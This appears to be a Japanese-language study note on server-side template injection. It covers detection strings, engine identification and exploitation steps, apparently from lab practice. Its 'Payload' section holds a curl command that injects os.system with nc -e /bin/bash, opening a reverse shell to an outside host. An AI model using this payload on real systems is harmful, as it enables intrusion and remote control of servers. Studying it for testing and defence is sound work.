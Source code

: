 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。
- 発火は、XSSと同じ文字連結によって引きおこる。

---
## ## SSTIの見つけ方
### ### Step1 : Detect(検出)
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${{<%[%'"}}%\
```
->注意:SSTIは2つの異なるコンテキストで発生し、どれぞれ独自の検出方法が必要である。

- SSTIの有無の判断基準
	- **プレーンテキストのコンテキストの場合**
		- XSSと同じ方法で見つけることが出来るが、この場合`{{7*7}}`などの演算を入力することにより、戻り値が49となればSSTIがあるという理解でいいだろう。
			※数字演算の場合、使用するテンプレートエンジンによって正しい書式が異なるので注意が必要。
	- **コードコンテキスト**
		- **Step1:XSSサイトでないことの確認が必要**
			```Example
			URL: http://site.com/?greeting=data.username<tag>
			目的: 直接的なXSS脆弱性がないことを確認
			期待結果: <tag>がエスケープされるか、エラーになる
			```
		- **Step2:テンプレート構文からの脱出。**
			```Example
			URL: http://site.com/?greeting=data.username}}<tag>
			目的: テンプレート式から抜け出してHTMLを挿入
			期待結果: もしSSTIがあれば「Hello Carlos<tag>」と表示される
			```

### ### Step2 :  Identify(特定)
SSTIの可能性を検出したら、次はtemplateエンジンを特定すること。
テンプレートエンジンの特定は以下の図のようなペイロードを送ればわかる。
![[Pasted image 20250612224600.png]]
※注意:同じテンプレート言語で成功レスポンスを返す場合があることに注意が必要。
1つのテンプレートで決めつけず複数のペイロードを使用する方がいい。

### ### Step3 :Exploit(悪用)
- **step1:ドキュメントを読む**
	- まずテンプレートエンジンの特定が出来たら、そのドキュメントを読んで理解を深めることから始める。
	- その際に意識することは基本的なテンプレート構文を学ぶこと。
	- セキュリティの影響の箇所を読む。ドキュメントにはセキュリティセクションみたいな箇所が存在する。通常はテンプレートで避けるべき危険な関数に関することだったりが記載されている。
	- オンラインでテンプレートエンジンの脆弱性がないかを探す。
- **Step2:探索**
	- ターゲットのサイトを巡回して、アクセスできるすべてのオブジェクトを見つける。
	- 
--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい


## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```

